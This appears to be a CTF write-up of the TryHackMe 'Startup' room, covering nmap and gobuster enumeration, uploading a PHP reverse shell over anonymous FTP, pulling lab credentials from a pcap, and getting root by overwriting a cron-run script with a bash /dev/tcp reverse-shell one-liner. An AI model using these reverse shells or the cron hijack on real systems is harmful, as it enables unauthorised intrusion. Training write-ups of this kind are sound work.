

#startup

This is a writeup for the TryHackMe room [Startup created by elbee](https://tryhackme.com/room/startup)

Please note that I completed this room running Parrot OS so there might be syntax differences.
The IP 10.10.173.246 seen in the screenshots was the victim IP given to me by TryHackMe. Just subsitute for the one that appears to you after clicking on "start machine"

Hope you enjoy!

Let's start our enumeration by running a nmap scan

`nmap -sC -A -T 4 <IP>`

We see here that 3 ports are open ... 21 (FTP), 22 (SSH) and 80 (HTTP)

Nothing much going on the webpage

And it is always a good practice to take a peek at the page source ... lots of great information can be found there!!

But not much going on here in this case ... :(

Going back to our nmap scan, we see that FTP allows us to login as anonymous! 
Just type in `FTP <IP` and then `anonymous` when prompted to enter the username.
When the password prompt comes, just hit Enter

(I forgot to take a screenshot of this when I first completed the room, that's why the IP is different! Sorry about that!!)

some interesting files that we can download to our machine by simply typing `get <file name>`

here is the output of one of them!!

 

That's a great clue that indicates that there is an upload/download capability in the webpage that we can exploit!

Next, we try to find hidden directories by using gobuster

`gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`

We found /files to let's go take a peek at it in our browser

GREAT finding!! FTP is a part of their web server which means not only can we download files as the note we found above implies, but we can also upload a malicious file ... a reverse php shell in this case!!

Many php reverse shells you can use out there... I included the one I used here in this repository!!

 

Let's check in the browser if our shell was uploaded correctly....

AWESOME!!! :)

Next we need to set up a netcat listener in our terminal using the same port we included in our reverse shell

`nc -lvnp 7777` (7777 is the port I used) 

To activate the shell, just click on it in the browser and you should get a response right away!!

Before starting to take a peek around, stabilize the shell by entering

`python3 -c 'import pty;pty.spawn("bin/bash")'`

And here we have the answer for the first question!! :)

Now we need to start escalating our privileges ...
I tried many tools such as LinPeas ... LinEnum ...even autoexploits! without much luck unfortunately, so
manual enumeration it is!! After doing plenty of digging I came across an interesting looking file at the /incidents directory!
It's a pcap file, which means we need Wireshark to analyze it!

Setting a python server in our shell, we can download the file to our system by using wget!

By analizing the file strings, we come accross some credentials!! `lennie:c4ntg3t3n0ughsp1c3`

Now we can just simply ssh into our victim using those credentials! You also can just type `su lennie` in the www-data shell and enter the password when prompted!!

And here is our first flag!!!

Now we just need to once more escalate our privileges to find our root.txt

After lots of digging, I found an interesting file here ...

That does look like a cronjob and the best tool to test this theory is pspy! 
We need to upload the tool into our victim and a good spot to do that is in the /tmp 

Once again, start a python server in your machine and upload the tool to lennie's /tmp through wget!!

And we find our cronjob..

Going throught the contents of planner.sh we see a /etc/print.sh and also check that lennie is the owner and able to edit it, so that's exactly what we will do!!

`echo 'bash -c "bash -i >& /dev/tcp/10.4.31.108/7777 0>&1"' > /etc/print.sh` 

(remember to substitute the IP for your TryHackMe VPN IP or the IP of the attackbox if you are using their in browser machine)

Set then a netcat listener and wait for the cronjob to run!!

SWEET!! Now to find our root.txt

And we are done!!!!!!!!!!!!!!!!

I hope you have lots of fun completing this room and maybe learn a few things! :)

Thank you so much for using/reading my writeup!!

                                         `CryptoTzipi aka CyberLola`
                                         
                                         

